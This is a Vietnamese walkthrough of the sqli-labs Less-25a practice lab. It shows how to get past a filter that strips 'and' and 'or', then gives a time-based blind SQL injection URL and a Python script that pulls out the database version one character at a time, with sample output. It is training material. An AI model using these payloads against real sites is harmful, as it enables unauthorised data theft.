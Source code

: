 # Less 25a

Đề bài yêu cầu nhập vào một giá trị

![](../images/sqli-labs/Less-25a/01.png)

Thử nhập vào một giá trị

![](../images/sqli-labs/Less-25a/02.png)

Tôi thử nhập vào một số giá trị có thể gây ra lỗi nhưng tôi không thấy lỗi gì được hiển thị lên màn hình. Như vậy ta không thể khai thác được bằng cách cho hiển thị lỗi lên màn hình.

Tôi thử tìm cách injection

![](../images/sqli-labs/Less-25a/03.png)

Thì tôi thấy có thể injection được.

Tôi thấy trên màn hình có thông báo liên quan đến 2 ký tự `and` và `or`. Tôi thử nhập vào

![](../images/sqli-labs/Less-25a/04.png)

Ở đây có thể dự đoán răng `and` và `or` khi nhập vào sẽ bị bỏ qua. Như vậy muốn sử dụng `and` hoặc `or` thì `and` thay bằng `anandd` còn `or` thì thay bằng `oorr`.

![](../images/sqli-labs/Less-25a/05.png)

Trong bài này ta có thể khai thác dữ liệu dựa vào time based

```
http://192.168.84.233/sqli-labs/Less-25a/?id=1 anandd if(substr((select @@version),1,1)='5',sleep(10),false) --+
```

![](../images/sqli-labs/Less-25a/06.png)

Như vậy ta có thể sử dụng script để lấy thông tin trong DB

```
import requests
import time
import string

url_1 = "http://192.168.84.233/sqli-labs/Less-25/?id=1' anandd if(substr(("
query = "select @@version"
url_2 = "),{},1)='{}',sleep(5), false) --+"
url = url_1 + query + url_2
lists = string.printable

for n in range(1,16):
    for i in lists:
        url1 = url.format(n,i)
        time_1 = time.time()
        result = requests.get(url1)
        time_2 = time.time()
        if (time_2 - time_1 >= 5):
            print(i)
            break
```

Kết quả như sau

```
python Sql-time-based.py 
5
.
5
.
6
0
-
m
a
r
i
a
d
b
```

Tương tự như vậy ta có thể show các thông tin khác bằng cách thay câu query trong script

Ta cũng có thể thêm script vào server

![](../images/sqli-labs/Less-25a/07.png)